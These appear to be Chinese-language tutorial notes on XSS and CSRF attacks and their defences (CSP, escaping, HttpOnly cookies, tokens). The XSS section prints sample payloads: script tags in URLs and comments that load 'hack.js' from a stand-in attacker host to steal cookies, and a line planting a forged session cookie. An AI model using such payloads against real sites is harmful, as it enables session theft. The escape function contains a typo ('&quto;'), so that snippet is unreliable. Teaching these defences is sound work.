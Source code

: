 # XSS和CSRF
## 一、XSS
XSS (Cross-Site Scripting)，跨站脚本攻击，黑客将恶意脚本代码植入到页面中从而实现盗取用户信息等操作。
### XSS攻击分类
* 反射型 - url参数直接注入

用户A访问安全网站B，然后用户C发现B网站存在XSS漏洞，此时用户C向A发送了一封邮件，里面有包含恶意脚本的URL地址（此URL地址还是网站B的地址，只是路径上有恶意脚本），当用户点击访问时，因为网站B中cookie含有用户的敏感信息，此时用户C就可以利用脚本在受信任的情况下获取用户A的cookie信息，以及进行一些恶意操作。这种攻击叫做反射性XSS。
```
// 普通
http://localhost:3000/?from=china
// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>
// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>
// 短域名伪造 https://dwz.cn/
// 伪造cookie入侵 chrome
document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxO
DYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```
* 存储型 - 存储到DB后读取时注入

假设网站B是一个博客网站，恶意用户C在存在XSS漏洞的网站B发布了一篇文章，文章中存在一些恶意脚本，例如img标签、script标签等，这篇博客必然会存入数据库中，当其他用户访问该文章时恶意脚本就会执行，然后进行恶意操作。这种攻击方式叫做持久性XSS，将携带脚本的数据存入数据库，之后又由后台返回。
```
// 评论
<script>alert(1)</script>
// 跨站脚本注入
我来了<script src="http://localhost:4000/hack.js"></script>
```
### XSS攻击危害 
* 获取页面数据
* 获取Cookies
* 劫持前端逻辑
* 发送请求
* 偷取网站的任意数据
* 偷取用户的资料
* 偷取用户的秘密和登录态
* 欺骗用户
### 防范手段
* 服务端设置HEAD
```js
ctx.set('X-XSS-Protection', 0) // 禁止XSS过滤
// http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
```
```
0 禁止XSS过滤。
1 启用XSS过滤（通常浏览器是默认的）。

如果检测到跨站脚本攻击，浏览器将清除页面（删除不安全的部分）。
1;mode=block 启用XSS过滤。 如果检测到攻击，浏览器将不会清除页面，而是阻止页面加载。
1;report= (Chromium only)  启用XSS过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用CSP report-uri 指令的功能发送违规
报告。
```
* CSP

内容安全策略 (CSP, Content Security Policy) 是一个附加的安全层，用于帮助检测和缓解某些类型的攻
击，包括跨站脚本 (XSS) 和数据注入等攻击。 这些攻击可用于实现从数据窃取到网站破坏或作为恶意软
件分发版本等用途。
CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。
```js
// 只允许加载本站资源
Content-Security-Policy: default-src 'self'
// 只允许加载 HTTPS 协议图片
Content-Security-Policy: img-src https://*
// 不允许加载任何来源框架
Content-Security-Policy: child-src 'none'
ctx.set('Content-Security-Policy', "default-src 'self'")
// 尝试一下外部资源不能加载
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>
```
* 转义字符

用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义
``` js
// 黑名单转义
function escape(str) {
    str = str.replace(/&/g, '&amp;')
    str = str.replace(/</g, '&lt;')
    str = str.replace(/>/g, '&gt;')
    str = str.replace(/"/g, '&quto;')
    str = str.replace(/'/g, '&#39;')
    str = str.replace(/`/g, '&#96;')
    str = str.replace(/\//g, '&#x2F;')
    return str
}
```
富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉。对于这种情况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在太多，更加推荐使用白名单的方式。
```js
// 白名单转义
const xss = require('xss')
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>')
// -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt;
console.log(html)
```
* HttpOnly Cookie

这是预防XSS攻击窃取用户cookie最有效的防御手段。Web应用程序在设置cookie时，将其属性设为HttpOnly，就可以避免该网页的cookie被客户端恶意JavaScript窃取，保护用户cookie信息。
```js
response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly")
```
## 二、CSRF
CSRF(Cross Site Request Forgery)，即跨站请求伪造，是一种常见的Web攻击，它利用用户已登录的身份，
在用户毫不知情的情况下，以用户的名义完成非法操作。
* 用户已经登录了站点 A，并在本地记录了 cookie
* 在用户没有登出站点 A 的情况下（也就是 cookie生效的情况下），访问了恶意攻击者提供的引诱危险站点 B (B 站点要求访问站点A)。
* 站点 A 没有做任何 CSRF 防御
### CSRF攻击危害
* 利用用户登录态
* 用户不知情
* 完成业务请求
* 盗取用户资金（转账，消费）
* 冒充用户发帖背锅
* 损害网站声誉
### 防范手段
* Referer验证（判断页面的来源referer是否来自本站）
* 验证码(最有效)
* Token 令牌验证（因为token是加在头部的，而csrf在伪造请求的时候只会带上cookie，不会带上token，所以就可以避免攻击）
* 禁止第三方网站带Cookie - 有兼容性问题
## 三、两者区别
* CSRF需要登陆后操作，XSS不需要。
* CSRF是请求页面api来实现非法操作，XSS是向当前页面植入js脚本来修改页面内容。